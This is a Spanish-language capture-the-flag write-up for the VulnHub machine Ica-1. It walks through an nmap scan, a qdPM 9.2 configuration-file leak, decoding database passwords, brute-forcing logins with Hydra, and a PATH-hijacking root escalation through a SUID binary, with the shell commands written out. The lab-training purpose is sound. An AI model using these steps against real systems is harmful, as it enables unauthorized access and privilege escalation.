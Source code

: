 ```yaml
---
layout: single
title: Ica1 - VulnHub
excerpt: "Ica-1 es una máquina vulnerable de VulnHub que presenta una vulnerabilidad que nos permite visualizar archivos críticos de la configuración a través de la base de datos MySQL. Una vez dentro de la base de datos, identificamos una tabla que contiene usuarios y contraseñas, que exploramos con Hydra para verificar la validez de las credenciales. La escalada de privilegios se basa en un mal manejo al llamar a programas."
date: 2023-11-13
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Ica-1 es una máquina vulnerable de VulnHub que presenta una vulnerabilidad que nos permite visualizar archivos críticos de la configuración a través de la base de datos MySQL. Una vez dentro de la base de datos, identificamos una tabla que contiene usuarios y contraseñas, que exploramos con Hydra para verificar la validez de las credenciales. La escalada de privilegios se basa en un mal manejo al llamar a programas.


## Enumeracion

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Tue Nov  7 12:30:25 2023 as: nmap -sCV -p22,80,3306,33060 -oN vulnscan.nmap 192.168.56.22
Nmap scan report for 192.168.56.22
Host is up (0.00034s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: qdPM | Login
3306/tcp  open  mysql   MySQL 8.0.26
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, ConnectWithDatabase, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsTransactions, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, FoundRows, LongColumnFlag, SupportsCompression, LongPassword, SwitchToSSLAfterHandshake, Support41Auth, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: S.oCJWT`/1Ajkw{"\x01%n\x02
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=11/7%Time=654A5818%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\
SF:x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20me
SF:ssage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LAN
SF:Desk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRP
SF:C,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid
SF:\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10
SF:\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
MAC Address: 08:00:27:91:CD:A8 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  7 12:30:40 2023 -- 1 IP address (1 host up) scanned in 15.02 seconds
```


## Analisis 

Empezamos por enumerar el puerto 80(http), y notamos que esta corriendo un **qdPM 9.2***.


![](/assets/images/vulnhub-writeup-ica1/ica1-version.png)

Si buscamos exploits para el servicio, vemos uno muy interesante.

![](/assets/images/vulnhub-writeup-ica1/ica1-exploitsearch.png)

El exploits informa que qdPM expone un archivo que contiene información sobre la base de datos.

![](/assets/images/vulnhub-writeup-ica1/ica1-sql.png)

Pasamos a conectarnos.

![](/assets/images/vulnhub-writeup-ica1/ica1-conectarmysql.png)

Copiamos las palabras seleccionadas por el cuadro rojo en dos archivos distintos. Los valores de password, lo tenemos que decodificar.

![](/assets/images/vulnhub-writeup-ica1/ica1-base64.png)

Tendria que quedarnos de la siguiente manera. con tr hacemos que todas las palabras con mayusculas pasen a minusculas.


![](/assets/images/vulnhub-writeup-ica1/ica1-contraseñas.png)

Utilizaremos hydra para identificar que credenciales son correctas.

![](/assets/images/vulnhub-writeup-ica1/ica1-fuerzaBruta.png)

## Shell- Travis

Al ingresar al sistema, ejecutamos el siguiente comando.

```bash
travis@debian:/home$ find / -perm -4000 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

El archivo con nombre **/opt/get_access** me llama la atención. Por lo que le procedo analizarlo con la herramienta "strings".

![](/assets/images/vulnhub-writeup-ica1/ica1-cat.png)

Vemos algo muy interesante, esta haciendo un mal llamado al programa cat, que esto efectua un PATH HIJACKING.Ejecutamos los siguientes comandos.

```bash
travis@debian:/dev/shm$ export PATH=.:$PATH
travis@debian:/dev/shm$ chmod +x cat
travis@debian:/dev/shm$ strings cat
#!/bin/sh
sh
travis@debian:/dev/shm$ 
```

Ahora ejecutamos el script.

![](/assets/images/vulnhub-writeup-ica1/ica1-root.png)
